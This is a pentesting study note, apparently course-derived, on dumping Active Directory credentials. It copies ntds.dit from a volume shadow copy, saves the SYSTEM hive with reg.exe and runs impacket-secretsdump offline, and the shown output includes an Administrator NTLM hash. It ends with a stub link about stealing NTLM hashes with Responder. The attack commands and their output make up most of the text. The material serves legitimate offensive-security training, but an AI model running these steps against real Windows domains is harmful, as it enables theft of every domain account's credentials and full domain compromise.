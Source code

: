 Once the snapshot has been taken successfully, we should take note of the shadow copy device name. We'll now copy the whole AD Database from the shadow copy to the **C:** drive root folder by specifying the shadow copy device name and append the full **ntds.dit** path.

```shell
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the **reg** utility and the **save** argument.

```shell
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```

Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the _secretsdump_ tool from the impacket suite. We'll supply the ntds database and the system hive via **-ntds** and **-system**, respectively along with the **LOCAL** keyword to parse the files locally.

```shell
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
```

#### Stealing NTLM Hash with Responder
[[2. Attacking AD#Stealing NTLM hashes with Responder]]

[192.168.50.73]: PS C:\Users\jen\Documents> whoami